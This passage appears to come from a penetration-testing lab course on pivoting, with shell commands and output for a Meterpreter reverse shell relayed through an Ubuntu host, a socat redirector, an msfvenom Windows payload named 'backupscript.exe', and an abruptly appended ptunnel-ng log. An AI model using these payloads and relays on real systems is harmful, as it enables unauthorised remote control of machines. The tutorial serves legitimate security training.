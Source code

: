 Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

#### Establishing the Meterpreter session

```shell
[*] Started reverse TCP handler on 0.0.0.0:8081
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

```

* * *

Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.


# Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start `socat` on the Ubuntu server.

#### Starting Socat Listener

```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

```

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

#### Creating the Windows Payload

```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%